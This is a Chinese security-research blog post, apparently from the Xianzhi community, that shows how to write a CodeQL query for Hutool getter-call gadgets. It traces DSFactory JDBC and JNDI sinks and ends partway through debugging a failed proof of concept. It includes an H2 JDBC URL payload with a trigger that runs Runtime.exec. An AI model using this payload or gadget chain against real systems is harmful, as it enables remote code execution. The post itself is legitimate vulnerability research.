# 使用codeql从0开始hutool 利用链挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/17622  
> **文章ID**: 17622

---

# 使用codeql从0开始hutool 利用链挖掘

上次讲了 hutool 利用链的调用原理，那就是调用 getter 方法

这次使用 codeql 去挖掘一下

## codeql 规则编写

### 条件探索

首先我们就是需要寻找可利用的 getter 条件，那其实如何赛选的逻辑可以从我们的代码中去寻找了

下面我们看看代码中是如何赛选 getter 方法的，我们去实现一下

#### 存在一个 public 即可？

测试代码如下

```

import cn.hutool.json.JSONObject;
import java.lang.reflect.Field;


public class Test2 {
    public static void main(String[] args) throws Exception {
        User user=new User("test");
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("1",user);

    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}

```

**都为 public**  
User 类

```
public class User {
    public String name;
    public User(String name) {
        System.out.println("User constructor");
        this.name = name;
    }
    public String getName() {
        System.out.println("User getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("User setName");
        this.name = name;
    }
}

```

首先我是简单测试了一下

对应的 filed 和 method 都为 public 的时候



成功调用 getter 方法

**只有filed 为 public**

当我们的 filed 为 public 的时候

```
public class User {
    public String name;
    public User(String name) {
        System.out.println("User constructor");
        this.name = name;
    }
    private String getName() {
        System.out.println("User getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("User setName");
        this.name = name;
    }
}

```

也是成功调用了 getter 方法



**只有 method 为 public**

```
public class User {
    private String name;
    public User(String name) {
        System.out.println("User constructor");
        this.name = name;
    }
    public String getName() {
        System.out.println("User getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("User setName");
        this.name = name;
    }
}

```



还是可以调用我们的 getter 方法

**都不为 public**

```
public class User {
    private String name;
    public User(String name) {
        System.out.println("User constructor");
        this.name = name;
    }
    private String getName() {
        System.out.println("User getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("User setName");
        this.name = name;
    }
}

```



不再调用我们的 getter 方法了

所以当时草草得出结论，只有对应的 method 和字段存在一个 public 都能够调用这个 getter 方法

#### 类中存在一个 public 字段

但是在我调试分析后又得出了新的结论，首先还是拿上次不能调用 getter 方法的代码调试

发现了原因是在

```
isReadableBean:48, BeanUtil (cn.hutool.core.bean)
map:111, ObjectMapper (cn.hutool.json)
<init>:210, JSONObject (cn.hutool.json)
<init>:187, JSONObject (cn.hutool.json)
wrap:805, JSONUtil (cn.hutool.json)
set:393, JSONObject (cn.hutool.json)
set:352, JSONObject (cn.hutool.json)
put:340, JSONObject (cn.hutool.json)
main:10, Test2
```

```
public static boolean isReadableBean(Class<?> clazz) {
    return hasGetter(clazz) || hasPublicField(clazz);
}
```

这里会判断是否有 Getter 方法或者 PublicField 都可以成功

##### hasGetter 判断

而我们的 getter 的条件就是

```
public static boolean hasGetter(Class<?> clazz) {
    if (ClassUtil.isNormalClass(clazz)) {
        Method[] var1 = clazz.getMethods();
        int var2 = var1.length;

        for(int var3 = 0; var3 < var2; ++var3) {
            Method method = var1[var3];
            if (method.getParameterCount() == 0) {
                String name = method.getName();
                if ((name.startsWith("get") || name.startsWith("is")) && !"getClass".equals(name)) {
                    return true;
                }
            }
        }
    }

    return false;
}
```

首先我们的类必须是 isNormalClass,也就是如下

```
public static boolean isNormalClass(Class<?> clazz) {
    return null != clazz && !clazz.isInterface() && !isAbstract(clazz) && !clazz.isEnum() && !clazz.isArray() && !clazz.isAnnotation() && !clazz.isSynthetic() && !clazz.isPrimitive();
}
```

然后方法的必须没有参数  
method.getParameterCount() == 0

方法必须以 get 或者 is 开头

##### hasPublicField 的判断

```
public static boolean hasPublicField(Class<?> clazz) {
    if (ClassUtil.isNormalClass(clazz)) {
        Field[] var1 = clazz.getFields();
        int var2 = var1.length;

        for(int var3 = 0; var3 < var2; ++var3) {
            Field field = var1[var3];
            if (ModifierUtil.isPublic(field) && !ModifierUtil.isStatic(field)) {
                return true;
            }
        }
    }

    return false;
}
```

就是字段存在 public 即可

##### 编写 codeql 规则

所以导致我们失败的原因就是两个都不满足，但是发现并没有要求我们的一一对应的关系，那岂不是类中存在 public 字段就可以了

我们修改一下 user 类

```
public class User {
    public int age;
    private String name;
    public User(String name) {
        System.out.println("User constructor");
        this.name = name;
    }
    private String getName() {
        System.out.println("User getName");
        return name;
    }
    public void setName(String name) {
        System.out.println("User setName");
        this.name = name;
    }
}

```

增加了一个 public 的 age 字段



运行之后成功调用了 getter 方法

于是我开始了 getter方法的 codeql 规则的编写

初步编写的版本如下

```
import java

class GetterMethod extends Method {
  GetterMethod() {
    this.getName().indexOf("get") = 0 and
    this.getName().length() > 3 and
    this.hasNoParameters() and
    this.fromSource() and
    exists(Field f1 | 
      f1.getDeclaringType() = this.getDeclaringType() and  
      f1.hasModifier("public")  
    ) and
    isNormalClass(this.getDeclaringType()) // 约束方法所在的类必须是普通类
  }
}
predicate isNormalClass(RefType t) {
  not t.hasModifier("abstract") and // 不能是抽象类
  not t.hasModifier("interface") and // 不能是接口
  not t.hasModifier("enum") and // 不能是枚举
  not t.hasModifier("annotation") and // 不能是注解
  not t.hasModifier("synthetic") and // 不能是合成类（编译器自动生成）
  not t.hasModifier("primitive") // 不能是基本类型
}

from GetterMethod method
select method
```

但是我发现如果是这样的话会有遗漏的，比如一个类继承了父类的一些方法，而且父类是抽象类，但是这样的话我们就会遗漏这种情况，虽然必须子类必须实现父类的抽象方法，但是如果存在双重抽象类就会遗漏

所以把抽象的判断去去掉了

第一次的结果


第二次的结果


发现结果是增多了

### 利用方法寻找

然后我们就可以从结果中寻找可利用的方法了

参考<http://www.bmth666.cn/2024/03/31/%E7%AC%AC%E4%BA%8C%E5%B1%8A-AliyunCTF-chain17%E5%A4%8D%E7%8E%B0/index.html>

其实知道

DSFactory.getDataSource 的方法可以被我们利用的



可以看到这个类是一个抽象类，刚刚第一次结果就会忽略这个类，所以删掉抽象的接口还是很有必要的，有无利用的肯定是它的子类



这里我们利用的子类选择性看起来很多

#### JDBC 利用

随便点击一个

其他类都是继承了 AbstractDSFactory 类，又是一个抽象类

```
public synchronized DataSource getDataSource(String group) {
    if (group == null) {
        group = "";
    }

    DataSourceWrapper existedDataSource = (DataSourceWrapper)this.dsMap.get(group);
    if (existedDataSource != null) {
        return existedDataSource;
    } else {
        DataSourceWrapper ds = this.createDataSource(group);
        this.dsMap.put(group, ds);
        return ds;
    }
}
```

可以看到调用 getDataSource 的时候会调用到 createDataSource

而这个方法是可以创建我们的 JDBC 连接的

不同的实现类有些需要特定的组件，而有些实现类是不需要组件的，就在本身的 jar 中

比如 PooledDSFactory

```
protected DataSource createDataSource(String jdbcUrl, String driver, String user, String pass, Setting poolSetting) {
    DbConfig dbConfig = new DbConfig();
    dbConfig.setUrl(jdbcUrl);
    dbConfig.setDriver(driver);
    dbConfig.setUser(user);
    dbConfig.setPass(pass);
    dbConfig.setInitialSize(poolSetting.getInt("initialSize", 0));
    dbConfig.setMinIdle(poolSetting.getInt("minIdle", 0));
    dbConfig.setMaxActive(poolSetting.getInt("maxActive", 8));
    dbConfig.setMaxWait(poolSetting.getLong("maxWait", 6000L));
    String[] var8 = KEY_CONN_PROPS;
    int var9 = var8.length;

    for(int var10 = 0; var10 < var9; ++var10) {
        String key = var8[var10];
        String connValue = poolSetting.get(key);
        if (StrUtil.isNotBlank(connValue)) {
            dbConfig.addConnProps(key, connValue);
        }
    }

    return new PooledDataSource(dbConfig);
}
```

跟进 PooledDataSource 的构造函数

```
public PooledDataSource(DbConfig config) {
    this.config = config;
    this.freePool = new LinkedList();
    int initialSize = config.getInitialSize();

    try {
        while(initialSize-- > 0) {
            this.freePool.offer(this.newConnection());
        }

    } catch (SQLException var4) {
        throw new DbRuntimeException(var4);
    }
}
```

会调用 newConnection 方法

```
public PooledConnection newConnection() throws SQLException {
    return new PooledConnection(this);
}
```

调用了 getConnection 方法进行了 JDBC 的连接

```
public PooledConnection(PooledDataSource ds) throws SQLException {
    this.ds = ds;
    DbConfig config = ds.getConfig();
    Props info = new Props();
    String user = config.getUser();
    if (user != null) {
        info.setProperty("user", user);
    }

    String password = config.getPass();
    if (password != null) {
        info.setProperty("password", password);
    }

    Properties connProps = config.getConnProps();
    if (MapUtil.isNotEmpty(connProps)) {
        info.putAll(connProps);
    }

    this.raw = DriverManager.getConnection(config.getUrl(), info);
}
```

当然其他的类都是同理的

#### JNDI 利用

不过 JndiDSFactory 还可以进行 JNDI

```
protected DataSource createDataSource(String jdbcUrl, String driver, String user, String pass, Setting poolSetting) {
    String jndiName = poolSetting.getStr("jndi");
    if (StrUtil.isEmpty(jndiName)) {
        throw new DbRuntimeException("No setting name [jndi] for this group.");
    } else {
        return DbUtil.getJndiDs(jndiName);
    }
}
```

跟进 getJndiDs 方法

```
public static DataSource getJndiDs(String jndiName) {
    try {
        return (DataSource)(new InitialContext()).lookup(jndiName);
    } catch (NamingException var2) {
        throw new DbRuntimeException(var2);
    }
}
```

这里可以触发 JNDI 的连接的

### 实际利用

#### 失败的利用

当我开始实际利用的时候

发现了端倪

首先我们需要构造一下 POC

实例化这个对象的时候

```
public PooledDSFactory(Setting setting) {
    super("Hutool-Pooled-DataSource", PooledDataSource.class, setting);
}
```

需要我们的 Setting 对象



最后构造如下

```
import cn.hutool.db.ds.pooled.PooledDSFactory;
import cn.hutool.json.JSONObject;
import cn.hutool.setting.Setting;
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws Exception {

        String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON
" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript
" +
                "java.lang.Runtime.getRuntime().exec('calc')
" +
                "$$
";
        Setting setting = new Setting();
        setting.set("url", url);
        PooledDSFactory pooledDSFactory= new PooledDSFactory(setting);
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("1",pooledDSFactory);
    }
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }
}

```

但是运行后并没有弹出计算器

然后调试分析一下

发现了问题所在

在匹配我们的 getter 方法的时候有这样一个逻辑

```
private BeanDesc init() {
    Method[] gettersAndSetters = ReflectUtil.getMethods(this.beanClass, ReflectUtil::isGetterOrSetterIgnoreCase);
    Field[] var3 = ReflectUtil.getFields(this.beanClass);
    int var4 = var3.length;

    for(int var5 = 0; var5 < var4; ++var5) {
        Field field = var3[var5];
        if (!ModifierUtil.isStatic(field) && !ReflectUtil.isOuterClassField(field)) {
            PropDesc prop = this.createProp(field, gettersAndSetters);
            this.propMap.putIfAbsent(prop.getFieldName(), prop);
        }
    }

    return this;
}
```

首先是判断我们的字段不能是 static

然后进入 createProp 逻辑，我们的方法如下



进入 createProp 方法

```
private PropDesc createProp(Field field, Method[] methods) {
    PropDesc prop = this.findProp(field, methods, false);
    if (null == prop.getter || null == prop.setter) {
        PropDesc propIgnoreCase = this.findProp(field, methods, true);
        if (null == prop.getter) {
            prop.getter = propIgnoreCase.getter;
        }

        if (null == prop.setter) {
            prop.setter = propIgnoreCase.setter;
        }
    }

    return prop;
}
```

进入 findProp 方法

```
private PropDesc findProp(Field field, Method[] gettersOrSetters, boolean ignoreCase) {
    String fieldName = field.getName();
    Class<?> fieldType = field.getType();
    boolean isBooleanField = BooleanUtil.isBoolean(fieldType);
    Method getter = null;
    Method setter = null;
    Method[] var10 = gettersOrSetters;
    int var11 = gettersOrSetters.length;

    for(int var12 = 0; var12 < var11; ++var12) {
        Method method = var10[var12];
        String methodName = method.getName();
        if (method.getParameterCount() == 0) {
            if (this.isMatchGetter(methodName, fieldName, isBooleanField, ignoreCase)) {
                getter = method;
            }
        } else if (this.isMatchSetter(methodName, fieldName, isBooleanField, ignoreCase) && fieldType.isAssignableFrom(method.getParameterTypes()[0])) {
            setter = method;
        }

        if (null != getter && null != setter) {
            break;
        }
    }

    return new PropDesc(field, getter, setter);
}
```

具体的匹配逻辑都在 isMatchGetter 方法里面了

```
private boolean isMatchGetter(String methodName, String fieldName, boolean isBooleanField, boolean ignoreCase) {
    String handledFieldName;
    if (ignoreCase) {
        methodName = methodName.toLowerCase();
        handledFieldName = fieldName.toLowerCase();
        fieldName = handledFieldName;
    } else {
        handledFieldName = StrUtil.upperFirst(fieldName);
    }

    if (isBooleanField) {
        if (fieldName.startsWith("is")) {
            if (methodName.equals(fieldName) || ("get" + handledFieldName).equals(methodName) || ("is" + handledFieldName).equals(methodName)) {
                return true;
            }
        } else if (("is" + handledFieldName).equals(methodName)) {
            return true;
        }
    }

    return ("get" + handledFieldName).equals(methodName);
}
```

可以看到对于我们的 getter 方法是通过拼接的来的

`return ("get" + handledFieldName).equals(methodName);`

而对应回去

